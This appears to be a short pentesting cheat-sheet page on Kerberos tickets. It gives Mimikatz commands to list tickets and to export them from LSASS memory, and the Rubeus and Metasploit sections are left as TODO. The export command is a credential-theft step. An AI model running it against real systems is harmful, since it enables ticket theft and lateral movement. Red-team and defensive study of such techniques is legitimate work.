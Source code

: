 # Tickets

## 01 - Mimikatz

- Check if tickets are present

```
C:\> klist

mimikatz # kerberos::list
```

- Extract tickets

`mimikatz # sekurlsa::tickets /export`

## 02 - Rubeus

TODO: Fill this info

## 03 - Metasploit

TODO: Fill this info